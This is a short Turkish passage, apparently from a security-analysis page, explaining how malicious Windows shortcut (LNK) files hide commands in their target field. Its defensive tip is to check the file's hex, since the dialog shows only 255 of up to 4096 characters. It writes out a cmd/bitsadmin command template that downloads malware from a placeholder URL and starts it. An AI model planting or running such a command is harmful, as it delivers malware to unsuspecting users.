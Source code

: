 <img title="LNK" src="../assets/lnk.png" style="display:block; margin-right:auto; margin-left:auto; padding-bottom:20px;">


Görselde görüldüğü üzere LNK dosyalarının bir hedef komut satırı bulunmaktadır. Saldırgan size yolladığı LNK dosyasının hedef kısmına **" 'cmd dosya yolu' /C bitsadmin /transfer downloadFile /download /priority normal 'Zararlı Yazılımın indirileceği URL' 'Hedef Dosya Yolu' & start 'Hedef Dosya Yolu'"** yazdığında uzak sunucudan bir zararlı yazılım indirip çalıştırabilir.
Burada bakmamız gereken yer LNK dosyasının **"Hedef"** satırıdır. Dikkat edilmesi gereken husus ise şudur; dosyanına ayarlar kısmındaki hedef kısmında maksimum 255 karakter gözükür fakat buradaki hedef kısmı 4096 karaktere kadar çıkabilmektedir. Bu noktada dosyanın hexadecimal değerlerine bakılması gerekmektedir.

<img title="LNK" src="../assets/lnk-cmd.png" style="display:block; margin-right:auto; margin-left:auto; padding-bottom:20px;">
